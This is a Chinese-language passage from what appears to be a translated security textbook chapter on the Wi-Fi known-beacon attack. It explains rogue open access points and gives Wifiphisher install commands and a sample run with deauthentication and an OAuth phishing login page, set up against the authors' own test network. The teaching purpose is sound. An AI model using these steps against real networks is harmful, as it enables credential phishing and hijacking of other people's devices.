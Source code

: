 图 12-1：已知信标攻击

攻击者的 AP 开始通过发射多个 *信标帧*，这是一种包含所有网络信息的管理帧。它会定期广播，以宣布网络的存在。如果受害者的设备将此网络信息保存在其首选网络列表中（因为受害者曾经连接过该网络），并且攻击者和受害者的 AP 都是开放型的，那么受害者会发出探测请求并连接到该网络。

在进行此攻击之前，我们需要设置设备。某些设备可能允许你更改 AutoConnect 标志。此设置的位置因设备而异，但通常在 Wi-Fi 设置中，如 图 12-2 所示，设置项通常为“自动重连”。确保此选项已启用。

![f12002](img/f12002.png)

图 12-2：带有 AutoConnect 切换按钮的 Wi-Fi 设置

接下来，设置一个开放式 AP，名称为 `my_essid`。我们使用便携式 TP-Link AP 来实现，但你可以使用任何你喜欢的设备。设置完成后，将受害设备连接到 `my_essid` 网络。然后安装 *Wifiphisher*（[`github.com/wifiphisher/wifiphisher/`](https://github.com/wifiphisher/wifiphisher/)），一个常用于网络评估的伪造 AP 框架。

安装 Wifiphisher，请使用以下命令：

```
$ **sudo apt-get install libnl-3-dev libnl-genl-3-dev libssl-dev**
$ **git clone** **https://github.com/wifiphisher/wifiphisher.git**
$ **cd** **wifiphisher** **&&** **sudo python****3** **setup.py install**
```

Wifiphisher 需要针对特定网络发起攻击，以便攻击该网络的客户端。我们创建了一个测试网络，也叫做 `my_essid`，以避免在未授权的情况下影响外部客户端：

```
# 1 **wifiphisher -nD –essid my_essid -kB**
[*] Starting Wifiphisher 1.4GIT ( https://wifiphisher.org ) at 2019-08-19 03:35
[+] Timezone detected. Setting channel range to 1-13
[+] Selecting wfphshr-wlan0 interface for the deauthentication attack
[+] Selecting wlan0 interface for creating the rogue Access Point
[+] Changing wlan0 MAC addr (BSSID) to 00:00:00:yy:yy:yy
[+] Changing wlan0 MAC addr (BSSID) to 00:00:00:xx:xx:xx
[+] Sending SIGKILL to wpa_supplicant
[*] Cleared leases, started DHCP, set up iptables
[+] Selecting OAuth Login Page template
```
